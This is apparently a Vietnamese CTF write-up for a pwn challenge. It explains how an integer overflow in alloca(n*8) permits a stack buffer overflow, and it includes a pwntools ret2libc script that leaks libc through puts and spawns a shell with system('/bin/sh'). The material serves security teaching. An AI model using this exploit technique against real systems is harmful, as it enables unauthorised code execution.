 # IDA
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  void *v4; // rsp
  unsigned __int64 v6; // [rsp+8h] [rbp-10h] BYREF
  unsigned __int64 *v7; // [rsp+10h] [rbp-8h]

  init();
  puts("Secret saver!");
  puts("How long is your secret?");
  printf("> ");
  __isoc99_scanf("%lu", &v6);
  v3 = 16 * ((8 * v6 + 23) / 0x10);
  while ( &v6 != (unsigned __int64 *)((char *)&v6 - (v3 & 0xFFFFFFFFFFFFF000LL)) )
    ;
  v4 = alloca(v3 & 0xFFF);
  if ( (v3 & 0xFFF) != 0 )
    *(unsigned __int64 *)((char *)&v6 + (v3 & 0xFFF) - 8) = *(unsigned __int64 *)((char *)&v6 + (v3 & 0xFFF) - 8);
  v7 = &v6;
  printf("Enter your secret: ");
  read_str((__int64)v7, v6);
  return 0;
}
```  

# Source 
```c
#include <stdio.h>
#include <alloca.h>
#include <unistd.h>

void init()
{
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}

void read_str(char *buffer, unsigned long int n)
{
	char c;
	unsigned long int i = 0;
	while (i < n)
	{
		read(0, &c, 1);
		if (c == '\n')
			break;
		buffer[i] = c;
		i++;
	}
	buffer[i] = '\0';
}

int main()
{
	char *buffer;
	unsigned long int n;

	init();

	puts("Secret saver!");
	puts("How long is your secret?");
	printf("> ");
	scanf("%lu", &n);

	buffer = alloca(n*8);
	printf("Enter your secret: ");
	read_str(buffer, n);
}
```

* khi nhìn vào source ta thấy có hàm alloca() thì hàm này có chức năng tương tự như malloc là cấp phát bộ nhớ nhưng thay vì nằm trên heap như malloc thì alloca cấp phát bộ nhớ trên stack. ví dụ alloca(16) sẽ cấp phát 16 byte  
* khi nhìn vào source code ta thấy được ```alloca(n*8)``` thì ta phát hiện ở đây là lỗi IOF, ta sẽ lấy một ví dụ sau.

##### ví dụ
```c
#include <stdio.h>

int main()
{
    int a;
    scanf("%d", &a);
    printf("%d", a * 8);
}
```
[các kiểu dữ liệu và phạm vi](https://blog.luyencode.net/kieu-du-lieu-trong-c/#kieu-so-nguyen)
phạm vi của int là ```-2,147,483,648 tới 2,147,483,647``` và em tính toán ```2147483647/8 = 268435455.875```, em thử với giá trị làm trò xuống ```268435455``` thì ```Output: 2147483640 ``` oke còn trong phạm vi, nhưng nếu e làm tròn lên ```268435456``` thì ```Output: -2147483648```, ta đã tràn phạm vi nên nó thành só âm =)))
* vậy nếu bây giờ, em thử khai báo một biến là long, sau đó gán biểu thức ```a*8``` thì kết quả như thế nào
```c
#include <stdio.h>
int main()
{
    int a;
    scanf("%d", &a);
    long b = a * 8;
    printf("%ld", b);
}
```
```input: 268435456 --- output: -2147483648``` =))) vậy qua phép thử trên và nhiều lần lập trình thì em hiểu là ```a*8``` nghĩa là ```(int) * (int) ```, thì ngôn ngữ C nó sẽ tự ép kiểu theo kiểu dữ liệu có phạm vi lớn nhất trong phép tính, trong trường hợp ``` int * int ``` thì nó sẽ tự hiểu là giá trị sau khi tính sẽ trả về dữ liệu int. Ví dụ trường hợp ```(int) * (long)``` thì giá trị trả về là long.
> từ những phép thử trên ta thấy lỗi IOF ở ```alloca(n * 8) ```
nghĩa là nếu ta nhập n sao cho n * 8 nó tràn ra phạm vi của unsigned long int để trả về giá trị nhỏ, hàm alloca sẽ cấp phát giá trị nhỏ đó và ta vẫn có thể nhập được số lượng kí tự lớn để BOF. 

# Thực thi
* Ở đây mỗi giá trị khác nhau cho ta những payload khác nhau về offset (giá trị nhỏ nhất là 0x2000000000000000), ở đây em chọn 0x2000000000000001
* Chạy thử debug thì ta đã đúng, khi ta đã cấp phát bộ nhớ nhỏ và số lượng kí tự nhập vào lớn  
![image](https://user-images.githubusercontent.com/111769169/222918324-d23d04d7-6676-4b7d-8b7b-77182c08da22.png)  
* việc sau đó là ret2libc
<details> <summary> script </summary>
	
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./iof1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r, gdbscript='''
                    b*main+267
                    c
                    ''')
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()
    input()
    
    #################
    ### leak libc ###
    #################
    r.sendlineafter(b"> ", b'2305843009213693953')
    payload = b'a' * 40 + p64(pop_rdi) + p64(exe.got['puts'])
    payload += p64(exe.plt['puts']) + p64(exe.sym['main'])
    r.sendlineafter(b'secret: ', payload)

    ######################
    ### tinh base libc ###
    ######################
    leak = u64(r.recvline(keepends=False) + b'\0\0')
    log.info("leak libc: " + hex(leak))
    libc.address = leak - 0x783a0
    log.info("base libc: " + hex(libc.address))
    r.sendlineafter(b"> ", b'2305843009213693953')

    #################
    ### tao shell ###
    #################
    payload = b'a' * 40
    payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    payload += p64(libc.sym['system'])
    r.sendlineafter(b'secret: ', payload)

    r.interactive()


if __name__ == "__main__":
    main()
```
	
</summary>
